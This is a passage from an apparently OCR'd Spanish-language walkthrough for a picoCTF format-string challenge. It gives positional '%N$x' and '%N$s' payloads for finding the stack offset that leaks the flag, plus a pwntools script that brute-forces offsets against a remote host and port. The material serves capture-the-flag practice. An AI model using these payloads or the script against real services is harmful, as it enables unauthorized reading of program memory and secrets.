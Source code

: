 Si el programa devuelve campos hex separados → confirma que está pasando tu entrada directamente a `printf`/`fprintf` como formato.

3. **Encontrar el offset correcto**  
    Envía payload con identificadores posicionales hasta que veas una cadena legible o una dirección:
    

`%1$x %2$x %3$x %4$x %5$x %6$x %7$x %8$x`

O prueba:

`%1$s %2$s ...`

Busca el offset que al usar `%N$s` imprime texto legible (podría ser parte de la flag). Por ejemplo si `%6$s` devuelve algo con `picoCTF{...}`, ese es el objetivo.

4. **Leer la flag con el offset correcto**  
    Si encontraste que `%6$s` o `%10$s` muestra la flag, solo manda:
    

`%6$s`

y copia la salida. Si la flag no está directamente en la pila sino en una dirección (p.ej. un puntero), primero filtra la dirección con `%N$x` y luego úsala con `%m$s`.

5. **Automatizar con pwntools (útil para pruebas repetidas)**  
    Guarda esto como `exploit.py` y modifica `HOST,PORT` o el comando local.
    

`#!/usr/bin/env python3 from pwn import *  # conecta local o remoto # p = process('./challenge')      # si tienes binario p = remote('HOST', PORT)           # si es instancia remota  def send_recv(payload):     p.sendline(payload)     return p.recvline(timeout=1).decode(errors='ignore')  # 1) test detect print(send_recv('%x %x %x %x %x %x %x %x'))  # 2) bruteforce offset hasta que veas algo tipo picoCTF{ for i in range(1,40):     p = remote('HOST', PORT)     payload = f'%{i}$s'     p.sendline(payload)     resp = p.recvline(timeout=1).decode(errors='ignore')     print(i, resp.strip())     p.close()  # 3) una vez conocido el offset (ejemplo offset=7) p = remote('HOST', PORT) p.sendline('%7$s') print('flag:', p.recvline(timeout=1)) p.close()`

6. **Si `%N$s` devuelve segfault o datos inválidos**
    

- puede que necesites leer primero una dirección con `%N$x` (ej. `%10$x`) y luego usarla en `printf` con `%s` (formato: enviar la dirección en la entrada de manera que quede en la pila en la posición adecuada).
    
- si hay protección ASLR/stack canaries, el reto suele estar diseñado para leer sólo (no escribir), así que el enfoque de solo lectura con `%N$s` normalmente funciona.
    

---

### **Notas adicionales**

- Empieza por detectar si la entrada se usa directo como _format string_ (payloads `%x` son la forma más rápida).
    
- Si el servicio imprime varias líneas, adapta `recv`/`recvline` en tu script.
    
- No intentes `%n` a menos que quieras escribir — esos payloads son más ruidosos y peligrosos.
    
- Trabaja con copias del flujo y automatiza la búsqueda de offset (el bucle en el script).
    